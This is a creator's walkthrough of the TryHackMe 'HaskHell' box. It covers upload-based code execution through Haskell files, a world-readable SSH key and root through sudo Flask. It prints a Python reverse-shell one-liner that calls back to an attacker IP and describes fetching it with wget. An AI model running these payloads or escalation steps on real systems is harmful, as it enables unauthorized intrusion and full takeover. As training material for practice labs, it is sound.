 This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/rooms/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I don't think that enough boxes showcase weird languages and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality.

There are a few small snags along the way, but the box is pretty straightforward for the most part.

##Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

##The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that.

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extensionsince that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error.png)

Some TryHackMe users were more clever than me and were able to implement this in less lines and handle redirection. The reason the screenshot above uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The solution to this was to use the callCommand function from the System.Process library. My solution was to wget a Python payload and then run it with another file upload. Since this is a Flask web server, we know that Python will be available to the web user.

However, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

##Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I learned a few things making it and plan on making more in the future.



